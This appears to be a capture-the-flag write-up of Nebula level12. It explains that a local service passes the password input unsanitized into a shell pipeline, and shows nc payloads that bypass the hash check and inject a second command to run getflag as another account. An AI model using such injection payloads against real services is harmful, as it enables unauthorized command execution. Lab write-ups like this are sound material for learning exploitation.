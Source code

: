 I'm not sure of the goal of this level : is it getting the token by defeating the password, or get the flag ? Let's do both.

The user entry for the password is not sanitized in anyway. By ending the echo command with ; it is possible to make the program execute arbitrary shell commands. So let's get the flag, and redirect output to keep a proof.

Not to break shell invocation, the arbitray command must be ended with a semi-column followed by 'echo' (or whatever) to suit the pipe in "| sha1sum".

The data return by commande execution is truncated to its first 40bytes. To defeat the password mechanism, statring the user entry by the expected hash does the trick.

level12@nebula:~$ echo "4754a4f4bd5787accd33de887b9250a0691dd198; echo " | nc localhost 50001

Password: Congrats, your token is 413**CARRIER LOST**

level12@nebula:~$ echo ";/bin/getflag > /home/flag12/flag12.out; echo " | nc localhost 50001

Password: Better luck next time

level12@nebula:~$ cat ../flag12/flag12.out

You have successfully executed getflag on a target account

